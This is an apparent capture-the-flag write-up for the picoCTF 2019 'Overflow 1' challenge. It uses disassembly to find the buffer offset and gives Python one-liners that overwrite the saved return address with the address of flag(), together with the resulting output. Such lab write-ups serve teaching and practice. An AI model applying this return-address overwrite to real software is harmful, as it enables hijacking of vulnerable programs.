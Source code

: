# Overflow 1

There is a simple get_return_address() call which lets us know when we overflow the return address with our input

```
printf("Woah, were jumping to 0x%x !\n", get_return_address());
```

On taking a look at the disassembly of the vuln() function , we can clearly see that the input we give gets stored on to the buffer at [ebp-0x48]

``` 
8048674:       8d 45 b8                lea    eax,[ebp-0x48]
8048677:       50                      push   eax
8048678:       e8 b3 fd ff ff          call   8048430 <gets@plt>
```
So we need to give an input of 0x48 bytes + 0x4 bytes (to override the saved ebp) + 0x4 bytes (to override the saved eip)

```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*72+"B"*8)' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x42424242 !
```

Now , Instead of 4 B's we add in the address of the flag() function in the little endian format.
```
arch3r@1nv4d3r:~/p1c0CTF_2019/0v3rflow$ python -c 'print("A"*76+"\xe6\x85\x04\x08")' | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
flag{0v3rfl0w_1}
```
and there's the flag..!

